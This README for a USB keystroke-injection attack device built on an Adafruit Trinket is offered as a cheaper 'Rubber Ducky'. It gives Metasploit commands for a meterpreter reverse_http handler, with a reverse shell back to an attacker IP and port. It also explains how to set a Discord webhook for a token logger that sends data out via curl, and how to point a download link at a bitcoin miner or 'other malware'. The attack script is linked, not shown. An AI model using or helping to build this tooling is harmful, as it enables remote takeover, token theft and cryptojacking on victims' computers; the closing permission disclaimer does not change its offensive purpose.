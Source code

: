 ## Icey's Script

[The Best USB Rubber Ducky Solution]

The first thing you will need is the device =roughly $40 cheaper then a real ducky= [Adafruti Trinket](https://www.adafruit.com/product/1501)

Secondly You Will Need The Trinket Keyboard Library Found [Here] (https://learn.adafruit.com/pro-trinket-keyboard/library)

Now, you need the IDE found here [IDE] (https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide)

Lastly, you need the [script] (https://pastebin.com/raw/wdZ0axP5)

Now, once you have the script in your IDE, you need to make a few edits:
Make a Backdoor in Metasploit with these commands
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST YOUR-IP-HERE
set LPORT YOUR-PORT-HERE
run -j
```
After that is done, put your ip and port in the ATTACKER_IP section and port in the ATTACKER_PORT section.
Once that is done, change the discord webhook two lines after the "Discord Token LoggerIpTimeName" comment and the webhook at the end of the line that starts with Curl

Now, change the download link under "Bitcoin Miner" to your own direct download link to a miner/other malware

You can also add more exploits yourself with the same format as the others
Once done, plug your device into your PC, make sure it is in 

Once all of this is done, you must do a few more things to upload the script to the device
First: Select the Pro Trinket 5V/16MHz (USB) or Pro Trinket 3V/12MHz (USB) board from the Tools->Board menu
Second: Go into the Tools -> Programmer menu and select the USBtinyISP programmer
Third: Plug in the Trinket, make sure you see the green LED lit (power good) and the red LED pulsing. Press the button if the red LED is not pulsing, to get into bootloader mode.

Click the Upload button (or select File->Upload)

And that’s it! You’re ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code.

Enjoy! and remember: only use this on PC's you have permission to use it on
